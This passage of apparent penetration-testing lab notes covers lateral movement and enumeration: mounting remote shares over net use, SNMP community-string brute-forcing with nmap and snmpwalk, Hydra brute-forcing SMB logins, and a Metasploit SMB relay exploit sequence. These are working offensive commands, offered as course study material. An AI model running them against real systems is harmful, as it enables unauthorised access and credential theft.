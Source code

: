 > This is how you can run commands to other machine using `proxychains` from `metasploit`.

```CMD
net view 10.0.22.69
```

> This lists down all the shared resources (if any) between two machines on a network.

```cmd
net use D: \\10.0.22.69\Documents
net use K: \\10.0.22.69\K$
dir D:
dir K:
```

> Command to load and access the shared resources.


#### SNMP Enumeration:

```Shell
nmap -sU -p 161 <ip-address>
```

> We must keep in mind that **nmap** does not check for **UDP** ports by default. As we already know, **SNMP** runs on the **UDP** port **161**. So we have to run a special specific scan.

```Shell
nmap -sU -p 161 --script=snmp-brute <ip-address>
```

>  nmap `snmp-brute` script can be used to find the community string. The script uses the `snmpcommunities.lst` list for brute-forcing it is located inside `/usr/share/nmap/nselib/data/snmpcommunities.lst` directory.

```Shell
snmpwalk -v 1 -c public demo.ine.local
```

> `snmpwalk` tool can be used to find all the information via SNMP.

`-v`: Specifies SNMP version to use.
`-c`: Set the community string.

```Shell
nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output
```

> The above command would run all the nmap SNMP scripts on the target machine and store its output to the`snmp_output`file.

```Shell
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```

> After this `psexec` can be used to exploit the machine.

#### SMB Relay Attack:

```msfconsole
use exploit/windows/smb/smb_relay
show options
set LHOST <our-ip-address>
set SRVHOST <our-ip-address>
set SMBHOST <target-ip-address>
exploit
jobs
```
